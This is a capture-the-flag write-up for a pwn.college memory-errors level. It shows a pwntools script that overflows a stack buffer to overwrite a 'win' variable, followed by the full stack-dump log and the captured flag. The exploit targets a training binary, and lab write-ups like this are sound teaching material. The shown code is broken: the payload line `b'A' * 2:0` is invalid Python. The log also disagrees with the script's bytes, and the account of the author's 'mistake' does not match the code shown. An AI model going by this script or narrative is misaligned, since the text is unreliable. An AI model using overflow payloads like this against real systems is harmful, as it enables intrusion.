 # Level 2.0

Okay so this challenge had annoyed me for so long and then I later realised I had done literally everything correct except for one small basic mistake that costed me so much time and effort.

I opened the challenge and found this

![alt text](./Images/2.0.png)

Now what I had to do was send a random buffer input of 20 characters and then change the win variable into the required value `4074042b`.

`NOTE - The changed value has to be in little endian format, something I ignored when I was solving this challenge and realised later`

Now to automate this process and change the value at the win variable's address I wrote the following script using pwntools:

```py
from pwn import *

p = process('/challenge/babymem-level-2-0')

p.sendline(b"100")

payload = b"A" * 2:0 + b"\x2b\x04\x74\x40"
p.sendline(payload)

p.interactive()

```

```
suvan@Suvan:~$ ssh -i ./key hacker@dojo.pwn.college
Connected!
hacker@memory-errors~level2-0:~$ python3 chall.py
[+] Starting local process '/challenge/babymem-level-2-0': pid 108
[*] Switching to interactive mode
[*] Process '/challenge/babymem-level-2-0' stopped with exit code -6 (SIGABRT) (pid 108)
###
### Welcome to /challenge/babymem-level-2-0!
###

The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff94a816a0 (rsp+0x0000) | 40 05 94 ea a9 77 00 00 | 0x000077a9ea940540 |
| 0x00007fff94a816a8 (rsp+0x0008) | 48 28 a8 94 ff 7f 00 00 | 0x00007fff94a82848 |
| 0x00007fff94a816b0 (rsp+0x0010) | 38 28 a8 94 ff 7f 00 00 | 0x00007fff94a82838 |
| 0x00007fff94a816b8 (rsp+0x0018) | 93 de 7d ea 01 00 00 00 | 0x00000001ea7dde93 |
| 0x00007fff94a816c0 (rsp+0x0020) | a0 a6 93 ea a9 77 00 00 | 0x000077a9ea93a6a0 |
| 0x00007fff94a816c8 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816d0 (rsp+0x0030) | e0 16 a8 94 ff 7f 00 00 | 0x00007fff94a816e0 |
| 0x00007fff94a816d8 (rsp+0x0038) | f4 16 a8 94 ff 7f 00 00 | 0x00007fff94a816f4 |
| 0x00007fff94a816e0 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816e8 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816f0 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fff94a816f8 (rsp+0x0058) | 00 19 6c 5d 8e 92 bd 2b | 0x2bbd928e5d6c1900 |
| 0x00007fff94a81700 (rsp+0x0060) | 40 27 a8 94 ff 7f 00 00 | 0x00007fff94a82740 |
| 0x00007fff94a81708 (rsp+0x0068) | fb 20 23 fe d3 5c 00 00 | 0x00005cd3fe2320fb |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7fff94a816a0, and our base pointer points to 0x7fff94a81700.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7fff94a816e0, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 20 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, if you can set variable to 0x4074042b, the flag will be printed.
You can change this variable by overflowing the input buffer, but keep endianness in mind!
The "win" variable is stored at 0x7fff94a816f4, 20 bytes after the start of your input buffer.

Payload size: You have chosen to send 100 bytes of input!
This will allow you to write from 0x7fff94a816e0 (the start of the input buffer)
right up to (but not including) 0x7fff94a81744 (which is 80 bytes beyond the end of the buffer).
Send your payload (up to 100 bytes)!
You sent 25 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fff94a816a0 (rsp+0x0000) | 40 05 94 ea a9 77 00 00 | 0x000077a9ea940540 |
| 0x00007fff94a816a8 (rsp+0x0008) | 48 28 a8 94 ff 7f 00 00 | 0x00007fff94a82848 |
| 0x00007fff94a816b0 (rsp+0x0010) | 38 28 a8 94 ff 7f 00 00 | 0x00007fff94a82838 |
| 0x00007fff94a816b8 (rsp+0x0018) | 93 de 7d ea 01 00 00 00 | 0x00000001ea7dde93 |
| 0x00007fff94a816c0 (rsp+0x0020) | a0 a6 93 ea 19 00 00 00 | 0x00000019ea93a6a0 |
| 0x00007fff94a816c8 (rsp+0x0028) | 64 00 00 00 00 00 00 00 | 0x0000000000000064 |
| 0x00007fff94a816d0 (rsp+0x0030) | e0 16 a8 94 ff 7f 00 00 | 0x00007fff94a816e0 |
| 0x00007fff94a816d8 (rsp+0x0038) | f4 16 a8 94 ff 7f 00 00 | 0x00007fff94a816f4 |
| 0x00007fff94a816e0 (rsp+0x0040) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007fff94a816e8 (rsp+0x0048) | 61 61 61 61 61 61 61 61 | 0x6161616161616161 |
| 0x00007fff94a816f0 (rsp+0x0050) | 61 61 61 61 2b 04 74 40 | 0x4074042b61616161 |
| 0x00007fff94a816f8 (rsp+0x0058) | 0a 19 6c 5d 8e 92 bd 2b | 0x2bbd928e5d6c190a |
| 0x00007fff94a81700 (rsp+0x0060) | 40 27 a8 94 ff 7f 00 00 | 0x00007fff94a82740 |
| 0x00007fff94a81708 (rsp+0x0068) | fb 20 23 fe d3 5c 00 00 | 0x00005cd3fe2320fb |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7fff94a816e0
- the saved frame pointer (of main) is at 0x7fff94a81700
- the saved return address (previously to main) is at 0x7fff94a81708
- the saved return address is now pointing to 0x5cd3fe2320fb.
- the canary is stored at 0x7fff94a816f8.
- the canary value is now 0x2bbd928e5d6c190a.
- the address of the win variable is 0x7fff94a816f4.
- the value of the win variable is 0x4074042b.

You win! Here is your flag:
pwn.college{oA3CQ84ty6DW9lO7PJadcU1226H.ddTNzMDLzITO0czW}
```

Now the small mistake I made that caused me so much trouble was not using `p.interactive()` in my script. 


`The interactive() method in pwntools is used to interact with a process or remote connection in a live, terminal-like way. This is particularly helpful in exploitation scenarios where you want to manually interact with a program after sending an exploit payload or gaining shell access.`

## My learning

1. Using interactive() method in the end of your script is a good practise and one must follow it when sending pwntools scripts

## Flag

`pwn.college{oA3CQ84ty6DW9lO7PJadcU1226H.ddTNzMDLzITO0czW}`
